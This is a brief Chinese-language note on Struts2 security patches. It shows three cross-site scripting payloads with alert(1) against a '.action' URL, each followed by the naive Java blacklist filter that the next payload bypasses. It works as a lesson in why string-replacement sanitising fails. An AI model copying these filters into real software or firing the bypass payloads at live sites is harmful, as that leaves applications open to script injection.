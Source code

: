 # 有趣的安全补丁

## struct2 

发现者提供了案例如下:

```html
xxx.action?<script>alert(1)</script>test
```

官方修补代码:

```JAVA
String result = link.toString();

if (result.indexOf("<script>") >= 0) {
  result = result.replaceAll("<script>", "script")
}
```

提交案例:

```html
xxx.action?<<script>>alert(1)</script>test
```

官方修补代码:

```JAVA
String result = link.toString();

while (result.indexOf("<script>") > 0) {
  result = result.replaceAll("<script>", "script")
}
```

提交案例：

```html
xxx.action?<<script test='2'>alert(1)</script>test
```

